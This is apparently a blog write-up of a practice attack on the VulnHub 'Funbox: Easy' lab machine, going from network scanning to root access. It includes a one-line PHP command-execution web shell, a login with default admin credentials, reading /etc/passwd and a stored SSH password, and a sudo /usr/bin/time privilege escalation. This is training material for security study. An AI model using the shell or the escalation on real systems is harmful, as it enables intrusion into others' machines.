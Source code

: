 ```yaml
---
title: WRITE-UP FUNBOX EASY
date: 2024-07-23 14:59:59 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-Up funbox:  Easy
## 1. Enumeration

i used netdicover to see where is my lab

```terminal
sudo netdiscover
```

![target](/assets/img/funbox_easy/funbox3_netdiscover.png)

target is : 192.168.137.45

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.45

```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
  
![target](/assets/img/funbox_easy/funbox3_nmap.png)

I checked this website . hmm apache default . I think this site have more

![target](/assets/img/funbox_easy/funbox3_checkport80.png)

so i used dirsearch to check subfolder of this site and i used default command

```terminal
dirsearch -u http://192.168.137.45
```

much more interesting i imagine 

![alt text](/assets/img/funbox_easy/funbox3_dirsearch.png)

## 2. Post Exploitation

first, i check /admin/ and i see a login simple i wanna try bruteforce but i cann't recive anything .

![alt text](/assets/img/funbox_easy/funbox3_dir_admin.png)

second, i look /store/ and boom i see a opensource store ? but i focus on admin login

![alt text](/assets/img/funbox_easy/funbox3_dir_store.png)


yeah, after that's i had been disconnected so i was be changed ip victims is 192.168.205.5

i followed admin/store login page 
![alt text](/assets/img/funbox_easy/funbox3_adminlogin_store.png)

i try login with user is admin and password is admin andddd bummm i can login with admin account then look at page i think i can upload a simple shell with add a book .

![alt text](/assets/img/funbox_easy/funbox3_admin_book.png)


![alt text](/assets/img/funbox_easy/funbox3_upload_a_book.png)

i will try upload a simple shell to take over this site
this file is ```shell.php```

```php
<?php echo system($_GET["cmd"]);?> 

```

after uploading answer the question. How can i trigger that's file i look a file i upload i can see a link

![alt text](/assets/img/funbox_easy/funbox3_see_file_uploads.png)

it's time to take control this site. 

![alt text](/assets/img/funbox_easy/funbox3_RCE_www-data.png)

but not enough for me i wanna ```root```

i see ```  /etc/passwd ``` hope to see something

![alt text](/assets/img/funbox_easy/funbox3_usertony.png)

i see user Tony let's check ```/home/tony```
i see a file is password.txt and i can see user ssh of Tony 

![alt text](/assets/img/funbox_easy/funbox3_home_tony.png)
![alt text](/assets/img/funbox_easy/funbox3_password_ssh_tony.png)

ssh time

## 3. Privilege Escalation

![alt text](/assets/img/funbox_easy/funbox3_SUID_tony.png)

i use ``` sudo -l ``` for some tricky
 
and i see ``` usr/bin/time ``` can run with sudo and  ``` NOPASSWD ```

right now we can run to privilege escalation 

```
sudo /usr/bin/time /bin/bash
```

right now we can get a ``` root ``` 

![alt text](/assets/img/funbox_easy/funbox3_root.png)
## Bingo and thanks for reading
